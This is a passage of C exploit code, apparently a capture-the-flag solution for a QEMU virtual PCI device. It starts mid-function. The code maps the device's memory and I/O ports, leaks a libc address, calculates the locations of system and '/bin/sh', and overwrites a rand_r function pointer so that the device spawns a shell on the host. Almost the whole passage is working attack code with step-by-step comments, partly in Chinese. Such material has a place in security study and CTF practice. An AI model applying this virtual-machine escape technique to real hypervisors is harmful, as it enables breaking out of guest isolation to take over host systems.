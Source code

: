 ```c
{
	return *((uint32_t*)(iomem + addr));
}

void pmio_write(uint32_t val, uint32_t port)
{
    outl(val, port);
}

uint32_t pmio_read(uint32_t port)
{
    return inl(port);
}


int main(int argc, char *argv[])
{
	// Open and map I/O memory 不知道是不是 00:04.0  
	int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
	if (fd == -1)
		die("open");
    printf("fd: %d\n",fd);
    if (iopl(3) < 0) {
        die("failed to change i/o privilege! no root?");
    }
	iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0); // the size if set to 0x10000 then will be too large
	if (iomem == MAP_FAILED)
		die("mmap");

	printf("iomem @ %p\n", iomem);
    // Do something
    // leak libc
    // set opaque + 0xa00 为 0xf8 和 srand 相差 0x104
    iowrite(0x80,0xf8);
    size_t srand_leak = ioread(0xc);
    printf("srand_leak: %p\n",srand_leak);
    size_t system_address = srand_leak + 0xacd0;
    size_t binshell_address = srand_leak + 0x1925d8;
    // cover rand_r with system
    // port range c000-c0ff
    pmio_write(666,0xc000);
    // read 666 out to set the flag
    pmio_read(0xc000);
    pmio_write(system_address%0x100000000,0xc000 + 0x1c);
    pmio_write(system_address/0x100000000,0xc000 + 0x1c + 4);
    // trigger system("$0\x00") with rand_r
    iowrite(0x40,0x3024);

	return 0;
}

```
